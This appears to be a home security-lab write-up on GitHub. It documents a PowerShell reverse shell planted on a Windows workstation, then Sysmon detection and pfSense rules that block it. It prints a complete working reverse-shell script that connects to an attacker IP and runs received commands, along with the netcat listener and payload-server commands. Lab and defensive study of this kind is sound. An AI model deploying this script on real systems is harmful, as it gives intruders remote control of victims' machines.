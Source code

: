 
# Reverse Shell Backdoor with Powershell Cradle Attack

## Overview

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali «
  - **IP Address:** 192.168.20.30

## Objective
Create and deploy a Malware PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the Windows's machine.

## Attack Execution Timeline

### 1. **Create Malware PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the Kali
    $writer.Write("> ")  
    $writer.Flush()    
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the Kali
    $writer.WriteLine($output)
    $writer.Flush()
}

$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:

```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

Here we can see that the User has succefully downloaded the Malware and the commands are being executed via **malware.ps1** (underlined in red):

![downloadedMalware](https://github.com/user-attachments/assets/1462d7bf-69e2-41a0-9a34-2c50f69edf1e)

And on the Kali machine we have accessed the Powershell:

![Reverse_Shell](https://github.com/user-attachments/assets/f88cc2f3-81a3-4c9a-9e44-9c349c03330b)


## **Monitoring Windows Logs**

Using Sysmon Logs we can see that the Kali machine started a connection with the Victim Machine, with the ID:3 :

![FirstConnection1](https://github.com/user-attachments/assets/251d4a2d-9e59-4406-824a-bacd94719d72)


After successfully establishing the reverse shell, We can see what commands the could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:

![whoami](https://github.com/user-attachments/assets/7a988e9f-9477-4124-ba5f-e5a70b6656cb)



- **`tasklist`** – To list all running processes:
  
![tasklist](https://github.com/user-attachments/assets/9751f108-cbbe-4467-b7e1-49f94d57b2cb)


- **`ipconfig`** – To display the network configuration, including IP addresses:
  
![ipconfig](https://github.com/user-attachments/assets/78b34a03-65f9-4b65-b641-ba866db86f93)


- **`systeminfo`** – To gather detailed information about the operating system and hardware:
  
![systeminfo](https://github.com/user-attachments/assets/3f524861-1014-4602-b281-2b24def33d74)


## PfSense Configuration

1- **Block Unauthorized Outbound Traffic (Reverse Shell Protection):**

![rule1](https://github.com/user-attachments/assets/ba106ecb-9147-4d63-8dda-af2b43ab352b)


**Explanation:**  
Reverse shells typically use common TCP ports (like 4444) to establish outbound connections to an attacker’s machine, this rule blocks these outbound connections, preventing compromised systems from connecting back to kali.


2- **Restrict PowerShell Downloads:**

![rule2](https://github.com/user-attachments/assets/48c6ac50-19e7-4254-ba25-7854df7ae71b)

**Explanation:**  
PowerShell cradle attacks often download scripts via HTTP/HTTPS. This rule blocks PowerShell from making external web requests, mitigating PowerShell-based malware delivery.


Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_reverse_powershell.yaml).


